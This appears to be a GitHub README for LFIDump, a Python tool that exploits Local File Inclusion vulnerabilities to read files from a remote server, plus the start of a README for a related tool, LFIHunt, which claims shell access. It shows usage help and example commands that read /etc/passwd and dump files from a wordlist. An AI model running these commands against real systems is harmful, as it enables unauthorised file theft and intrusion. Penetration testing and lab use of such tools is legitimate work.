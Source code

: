 
![](./.github/example.gif)

## Features

 - [x] Dump a single file with `-f /path/to/remote/file.txt`
 - [x] Dump lots of files from a wordlist with `-F /path/to/local/wordlist.txt`
 - [x] Insecure mode (for broken SSL/TLS) with `-k/--insecure`
 - [x] Custom local dump dir with `-d/--dump-dir`

## Usage

```
$ ./LFIDump.py -h
usage: LFIDump.py [-h] [-v] [-s] -u URL [-f FILE | -F FILELIST] [-D DUMP_DIR] [-k]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)
  -s, --only-success    Only print successful read file attempts.
  -u URL, --url URL     URL to connect to. (example: http://localhost/?page=LFIPATH)
  -f FILE, --file FILE  Remote file to read.
  -F FILELIST, --filelist FILELIST
                        File containing a list of paths to files to read remotely.
  -D DUMP_DIR, --dump-dir DUMP_DIR
                        Directory where the dumped files will be stored.
  -k, --insecure        Allow insecure server connections when using SSL (default: False)
```

## Examples

 + Dump a single file
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -f /etc/passwd
    ```
   
 + Dump files from a wordlist
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -F ./wordlists/all.txt
    ```

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.


# LFIHunt 🕵️‍♂️

LFIHunt is a Python tool designed to streamline the process of exploiting Local File Inclusion (LFI) vulnerabilities. It employs a range of techniques to attempt to exploit these vulnerabilities and, if successful, offers automatic shell access or file reading.
